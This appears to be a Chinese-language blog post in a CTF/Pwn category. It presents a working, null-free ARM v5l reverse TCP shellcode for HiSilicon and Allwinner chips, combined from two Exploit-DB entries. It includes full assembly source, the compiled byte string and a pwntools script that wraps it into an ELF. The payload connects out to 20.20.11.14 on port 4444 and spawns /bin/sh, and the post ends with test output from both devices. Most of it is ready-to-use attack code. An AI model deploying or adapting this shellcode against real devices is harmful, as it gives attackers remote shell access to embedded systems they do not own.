 ```yaml
---
title: ARM v5l 稳定 shellcode：shell reverse tcp (Null free)
date: 2021-06-17 00:00:00
categories:
- CTF/Pwn
tags: 
---
```


> 最近需要在一个采用了海思解决方案HI3518 CV100(ARM v5l)的设备上打一个反连并且没有空字节的shellcode，但是网上直接找shellcode大部分都是在ARM v7l上测试成功的，能够在v5l的指令集上兼容的shellcode并不多。并且设备上的busybox的启动sh时，execve的第二个参数也必须布置好，否则会启动失败。网上的大多shellcode第二个参都是直接0。最后拼接了两个前辈（[rtmcx](https://www.exploit-db.com/shellcodes/43921)、[Ken Kitahara](https://www.exploit-db.com/shellcodes/45290)）的shellcode，并在HI3518 CV100、 Allwinner F1C200s上测试通过。


在shellcode修改的过程中需要注意`adr`指令后所使用的地址需要4字节对齐，所以可以使用`eor  r7, r7, r7`这种填充指令进行了地址的对齐：

```C
// mix two shellcode
// https://www.exploit-db.com/shellcodes/45290
// https://www.exploit-db.com/shellcodes/43921

/*
* Title:  Linux/ARM - Reverse Shell TCP (execve("/bin/sh", ["/bin/sh"], NULL)). Null free shellcode (84 bytes)
* Date:   2021-06-16
* Tested: armv5l (HI3518 CV100, Allwinner F1C200s)
* Author: rtmcx - twitter: @rtmcx 
* Author: Ken Kitahara
*/

.section .text

.global _start

_start:
/* Enter Thumb mode */
	.ARM
	add	r3, pc, #1
	bx	r3

	.THUMB

/* Create a new socket*/
	mov 	r0, #2				// PF_INET = 2
	mov 	r1, #1				// SOCK_STREAM = 1
	eor 	r2, r2, r2			// Zero out r2
	mov 	r7, #100			// Put 281 in r7..
	add 	r7, #181			// ..in a 2-step operation
	svc 	#1					// syscall returns sockid in r0 

	mov 	r4, r0				// Save sockid in r4


/* Connect to client */
	adr 	r1, struct_addr		// Address to struct_addr
	strb	r2, [r1, #1]		// Replace AF_INET with NULL
	mov 	r2, #16				// Address length 
	add 	r7, #2				// r7 already contains 281, so add 2 = 283
	svc 	#1					// Client sockid will be returned in r0
	

/* Duplicate STDIN, STDOUT and STERR */
	mov 	r0, r4				// Saved sockid
	eor 	r1, r1, r1			// Zero r1 for STDIN
	mov 	r7, #63				// Syscall for dup2
	svc 	#1					// Execute syscall
	
	mov 	r0, r4				// Saved sockid
	add 	r1, #1				// STDOUT (1)
	svc 	#1					// Execute syscall

	mov 	r0, r4				// Saved sockid
	add 	r1, #1				// STDERR (2)
	svc 	#1					// Execute syscall

	
/* Execute shell */

    adr     r0, spawn
    eor     r2, r2, r2
    strb    r2, [r0, #7]
    push    {r0, r2}
    mov     r1, sp
    mov     r7, #11
    svc     #1

/*  adjust address */
    eor     r7, r7, r7

spawn:
    .ascii "/bin/shA"

struct_addr:
	.ascii "\x02\xaa"			// AF_INET 0xff will be NULLed 
	.ascii "\x11\x5c"			// port 4444
	.ascii "\x14\x14\x0b\x0d" 	// IP Address (20.20.11.14)

/*
Compile and link with: 
# arm-linux-gnueabi-as -o shellcode.o shellcode.s
# arm-linux-gnueabi-ld -N shellcode.o -o shellcode
# arm-linux-gnueabi-objcopy -O binary --only-section=.text shellcode execve.text
\x01\x30\x8F\xE2\x13\xFF\x2F\xE1\x02\x20\x01\x21\x52\x40\x64\x27\xB5\x37\x01\xDF\x04\x1C\x0D\xA1\x4A\x70\x10\x22\x02\x37\x01\xDF\x20\x1C\x49\x40\x3F\x27\x01\xDF\x20\x1C\x01\x31\x01\xDF\x20\x1C\x01\x31\x01\xDF\x03\xA0\x52\x40\xC2\x71\x05\xB4\x69\x46\x0B\x27\x01\xDF\x7F\x40\x2F\x62\x69\x6E\x2F\x73\x68\x41\x02\xAA\x11\x5C\x14\x14\x0B\x0D
*/
```

可以直接使用编译出来的ELF进行测试，也可以使用pwntools对shellcode进行封装：

```python
from pwn import *
context(arch='arm')

shellcode  = '\x01\x30\x8F\xE2\x13\xFF\x2F\xE1\x02\x20\x01\x21\x52\x40\x64\x27'
shellcode += '\xB5\x37\x01\xDF\x04\x1C\x0D\xA1\x4A\x70\x10\x22\x02\x37\x01\xDF'
shellcode += '\x20\x1C\x49\x40\x3F\x27\x01\xDF\x20\x1C\x01\x31\x01\xDF\x20\x1C'
shellcode += '\x01\x31\x01\xDF\x03\xA0\x52\x40\xC2\x71\x05\xB4\x69\x46\x0B\x27'
shellcode += '\x01\xDF\x7F\x40\x2F\x62\x69\x6E\x2F\x73\x68\x41\x02\xAA\x11\x5C'
shellcode += '\x14\x14\x0B\x0D'

a = make_elf(shellcode)
f = open('shellcode','wb')
f.write(a)
f.close()
```

测试的SoC信息如下：

![image](https://xuanxuanblingbling.github.io/assets/pic/arm/armv5l_shellcode_test.jpeg)

```
# cat /proc/cpuinfo
processor       : 0
model name      : ARM926EJ-S rev 5 (v5l)
BogoMIPS        : 203.16
Features        : swp half thumb fastmult edsp java 
CPU implementer : 0x41
CPU architecture: 5TEJ
CPU variant     : 0x0
CPU part        : 0x926
CPU revision    : 5

Hardware        : Allwinner suniv Family
Revision        : 0000
Serial          : 0000000000000000
# Connection to 20.20.11.14 closed.

# cat /proc/cpuinfo
Processor       : ARM926EJ-S rev 5 (v5l)
BogoMIPS        : 218.72
Features        : swp half fastmult edsp java 
CPU implementer : 0x41
CPU architecture: 5TEJ
CPU variant     : 0x0
CPU part        : 0x926
CPU revision    : 5

Hardware        : hi3518
Revision        : 0000
Serial          : 0000000000000000
```